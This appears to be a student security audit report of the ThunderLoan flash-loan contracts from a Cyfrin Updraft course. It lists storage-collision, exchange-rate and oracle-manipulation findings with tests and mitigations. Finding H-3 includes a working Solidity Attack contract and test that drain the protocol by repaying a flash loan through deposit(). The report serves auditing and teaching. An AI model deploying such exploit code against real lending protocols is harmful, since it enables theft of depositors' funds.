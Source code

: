 # Cyfrin Updraft ThunderLoan Audit

## High

### [H-1] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`

**Description:** `ThunderLoan.sol` has two variables in the following order:

```javascript
uint256 private s_feePrecision;
uint256 private s_flashLoanFee; // 0.3% ETH fee
```

However, the expected upgraded contract `ThunderLoanUpgraded.sol` has them in a different order:

```javascript
uint256 private s_flashLoanFee; // 0.3% ETH fee
uint256 public constant FEE_PRECISION = 1e18;
```

Due to how Solidity storage works, after the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the positions of storage variables when working with upgradeable contracts.

**Impact:** After upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take out flash loans right after an upgrade will be charged the wrong fee. Additionally, the `s_currentlyFlashLoaning` mapping will start on the wrong storage slot.

**Proof of Code:** 
<details>
<summary>Code</summary>

Add the following code to the `ThunderLoanTest.t.sol` file:

```javascript
// You'll need to import `ThunderLoanUpgraded` as well
import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";

function testUpgradeBreaks() public {
    uint256 feeBeforeUpgrade = thunderLoan.getFee();
    vm.startPrank(thunderLoan.owner());
    ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
    thunderLoan.upgradeTo(address(upgraded));
    uint256 feeAfterUpgrade = thunderLoan.getFee();

    assert(feeBeforeUpgrade != feeAfterUpgrade);
}
```
</details>

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`.

**Recommended Mitigation:** Do not switch the positions of the storage variables on upgrade, and leave a blank if you're going to replace a storage variable with a constant. In `ThunderLoanUpgraded.sol`:

```diff
-    uint256 private s_flashLoanFee; // 0.3% ETH fee
-    uint256 public constant FEE_PRECISION = 1e18;
+    uint256 private s_blank;
+    uint256 private s_flashLoanFee; 
+    uint256 public constant FEE_PRECISION = 1e18;
```

### [H-2] Erroneous `ThunderLoan::updateExchangeRate` in the `ThunderLoan::deposit` function causes protocol to think it has more fees than it does, which blocks redemption and incorrectly sets the exchange rate

**Description:** In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of how many fees to give to liquidity providers.

However, the `deposit` function updates this rate, without collecting any fees!

```solidity
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
    AssetToken assetToken = s_tokenToAssetToken[token];
    uint256 exchangeRate = assetToken.getExchangeRate();
    uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
    emit Deposit(msg.sender, token, amount);
    assetToken.mint(msg.sender, mintAmount);
    uint256 calculatedFee = getCalculatedFee(token, amount);
    assetToken.updateExchangeRate(calculatedFee);
    token.safeTransferFrom(msg.sender, address(assetToken), amount);
}
```

**Impact:** There are several impacts to this bug:
1. The `redeem` function is blocked, because the protocol thinks the owed tokens are more than actual.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or less than deserved.

**Proof of Concept:**

1. LP deposits
2. User takes out a flash loan
3. It is now impossible for LP to redeem

<details>
<summary>Code</summary>

Place the following into `ThunderLoanTest.t.sol`:

```solidity
function testRedeemAfterLoan() public setAllowedToken hasDeposits {
    uint256 amountToBorrow = AMOUNT * 10;
    uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

    vm.startPrank(user);
    tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
    thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
    vm.stopPrank();

    uint256 amountToRedeem = type(uint256).max;
    vm.startPrank(liquidityProvider);
    thunderLoan.redeem(tokenA, amountToRedeem);
    vm.stopPrank();
}
```
</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate.

### [H-3] All the funds can be stolen if the flash loan is returned using `deposit()`

**Description:** The `flashloan()` function performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing `endingBalance` with `startingBalance + fee`. However, a vulnerability emerges when calculating `endingBalance` using `token.balanceOf(address(assetToken))`.

Exploiting this vulnerability, an attacker can return the flash loan using the `deposit()` instead of `repay()`. This action allows the attacker to mint `AssetToken` and subsequently redeem it using `redeem()`. What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Proof of Code:**

<details><summary>Code</summary>

```solidity
function testAttack() public setAllowedToken hasDeposits {
    uint256 amountToBorrow = AMOUNT * 10;
    vm.startPrank(user);
    tokenA.mint(address(attack), AMOUNT);
    thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
    attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
    thunderLoan.redeem(tokenA, type(uint256).max);
    vm.stopPrank();

    assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);   
}
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }

    function sendAssetToken(address assetToken) public {
        
        IERC20(assetToken).transfer(msg.sender, IERC20(assetToken).balanceOf(address(this)));
    }
}
```
</details>

**Impact:** All the funds of the AssetContract can be stolen.

**Recommended Mitigation:** Add a check in `deposit()` to make it impossible to use it in the same block of the flash loan. For example, register the `block.number` in a variable in `flashloan()` and check it in `deposit()`.

## Medium

### [M-1] Centralization risk for trusted owners

**Impact:** Contracts have owners with privileged rights to perform admin tasks and need to be trusted to not perform malicious updates or drain funds.

**Instances (2):**
```solidity
File: src/protocol/ThunderLoan.sol

223:     function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {

261:     function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }
```

### [M-2] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula-based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees. 

**Impact:** Liquidity providers will receive drastically reduced fees for providing liquidity. 

**Proof of Concept:** 

The following all happens in 1 transaction:

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price. 
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`. 
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper. 
```javascript
function getPriceInWeth(address token) public view returns (uint256) {
    address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
    return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
}
```
   3. The user then repays the first flash loan, and then repays the second flash loan.

**Recommended Mitigation:** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle. 

## Low

### [L-1] Centralization Risk for trusted owners

Contracts have owners with privileged rights to perform admin tasks and need to be trusted to not perform malicious updates or drain funds.

<details><summary>6 Found Instances</summary>


- Found in src/protocol/ThunderLoan.sol [Line: 239](src/protocol/ThunderLoan.sol#L239)

	```solidity
	    function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
	```

- Found in src/protocol/ThunderLoan.sol [Line: 265](src/protocol/ThunderLoan.sol#L265)

	```solidity
	    function updateFlashLoanFee(uint256 newFee) external onlyOwner {
	```

- Found in src/protocol/ThunderLoan.sol [Line: 293](src/protocol/ThunderLoan.sol#L293)

	```solidity
	    function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 238](src/upgradedProtocol/ThunderLoanUpgraded.sol#L238)

	```solidity
	    function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 264](src/upgradedProtocol/ThunderLoanUpgraded.sol#L264)

	```solidity
	    function updateFlashLoanFee(uint256 newFee) external onlyOwner {
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 287](src/upgradedProtocol/ThunderLoanUpgraded.sol#L287)

	```solidity
	    function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }
	```

</details>

### [L-2] Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>1 Found Instances</summary>


- Found in src/protocol/OracleUpgradeable.sol [Line: 16](src/protocol/OracleUpgradeable.sol#L16)

	```solidity
	        s_poolFactory = poolFactoryAddress;
	```

</details>


### [L-3] `public` functions not used internally could be marked `external`

Instead of marking a function as `public`, consider marking it as `external` if it is not used internally.

<details><summary>6 Found Instances</summary>


- Found in src/protocol/ThunderLoan.sol [Line: 231](src/protocol/ThunderLoan.sol#L231)

	```solidity
	    function repay(IERC20 token, uint256 amount) public {
	```

- Found in src/protocol/ThunderLoan.sol [Line: 277](src/protocol/ThunderLoan.sol#L277)

	```solidity
	    function getAssetFromToken(IERC20 token) public view returns (AssetToken) {
	```

- Found in src/protocol/ThunderLoan.sol [Line: 281](src/protocol/ThunderLoan.sol#L281)

	```solidity
	    function isCurrentlyFlashLoaning(IERC20 token) public view returns (bool) {
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 230](src/upgradedProtocol/ThunderLoanUpgraded.sol#L230)

	```solidity
	    function repay(IERC20 token, uint256 amount) public {
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 275](src/upgradedProtocol/ThunderLoanUpgraded.sol#L275)

	```solidity
	    function getAssetFromToken(IERC20 token) public view returns (AssetToken) {
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 279](src/upgradedProtocol/ThunderLoanUpgraded.sol#L279)

	```solidity
	    function isCurrentlyFlashLoaning(IERC20 token) public view returns (bool) {
	```

</details>

### [L-4] Event is missing `indexed` fields

Index event fields make the field more quickly accessible to off-chain tools that parse events. However, note that each index field costs extra gas during emission, so it's not necessarily best to index the maximum allowed per event (three fields). Each event should use three indexed fields if there are three or more fields, and gas usage is not particularly of concern for the events in question. If there are fewer than three fields, all of the fields should be indexed.

<details><summary>9 Found Instances</summary>


- Found in src/protocol/AssetToken.sol [Line: 31](src/protocol/AssetToken.sol#L31)

	```solidity
	    event ExchangeRateUpdated(uint256 newExchangeRate);
	```

- Found in src/protocol/ThunderLoan.sol [Line: 105](src/protocol/ThunderLoan.sol#L105)

	```solidity
	    event Deposit(address indexed account, IERC20 indexed token, uint256 amount);
	```

- Found in src/protocol/ThunderLoan.sol [Line: 106](src/protocol/ThunderLoan.sol#L106)

	```solidity
	    event AllowedTokenSet(IERC20 indexed token, AssetToken indexed asset, bool allowed);
	```

- Found in src/protocol/ThunderLoan.sol [Line: 107](src/protocol/ThunderLoan.sol#L107)

	```solidity
	    event Redeemed(
	```

- Found in src/protocol/ThunderLoan.sol [Line: 110](src/protocol/ThunderLoan.sol#L110)

	```solidity
	    event FlashLoan(address indexed receiverAddress, IERC20 indexed token, uint256 amount, uint256 fee, bytes params);
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 105](src/upgradedProtocol/ThunderLoanUpgraded.sol#L105)

	```solidity
	    event Deposit(address indexed account, IERC20 indexed token, uint256 amount);
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 106](src/upgradedProtocol/ThunderLoanUpgraded.sol#L106)

	```solidity
	    event AllowedTokenSet(IERC20 indexed token, AssetToken indexed asset, bool allowed);
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 107](src/upgradedProtocol/ThunderLoanUpgraded.sol#L107)

	```solidity
	    event Redeemed(
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 110](src/upgradedProtocol/ThunderLoanUpgraded.sol#L110)

	```solidity
	    event FlashLoan(address indexed receiverAddress, IERC20 indexed token, uint256 amount, uint256 fee, bytes params);
	```

</details>

### [L-5] PUSH0 is not supported by all chains

Solc compiler version 0.8.20 switches the default target EVM version to Shanghai, which means that the generated bytecode will include PUSH0 opcodes. Be sure to select the appropriate EVM version in case you intend to deploy on a chain other than mainnet like L2 chains that may not support PUSH0, otherwise deployment of your contracts will fail.

<details><summary>8 Found Instances</summary>


- Found in src/interfaces/IFlashLoanReceiver.sol [Line: 2](src/interfaces/IFlashLoanReceiver.sol#L2)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/interfaces/IPoolFactory.sol [Line: 2](src/interfaces/IPoolFactory.sol#L2)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/interfaces/ITSwapPool.sol [Line: 2](src/interfaces/ITSwapPool.sol#L2)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/interfaces/IThunderLoan.sol [Line: 2](src/interfaces/IThunderLoan.sol#L2)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/protocol/AssetToken.sol [Line: 2](src/protocol/AssetToken.sol#L2)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/protocol/OracleUpgradeable.sol [Line: 2](src/protocol/OracleUpgradeable.sol#L2)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/protocol/ThunderLoan.sol [Line: 64](src/protocol/ThunderLoan.sol#L64)

	```solidity
	pragma solidity 0.8.20;
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 64](src/upgradedProtocol/ThunderLoanUpgraded.sol#L64)

	```solidity
	pragma solidity 0.8.20;
	```

</details>

### [L-6] Unused Custom Error

It is recommended that the definition be removed when custom error is unused.

<details><summary>2 Found Instances</summary>


- Found in src/protocol/ThunderLoan.sol [Line: 84](src/protocol/ThunderLoan.sol#L84)

	```solidity
	    error ThunderLoan__ExhangeRateCanOnlyIncrease();
	```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol [Line: 84](src/upgradedProtocol/ThunderLoanUpgraded.sol#L84)

	```solidity
	    error ThunderLoan__ExhangeRateCanOnlyIncrease();
	```

</details>
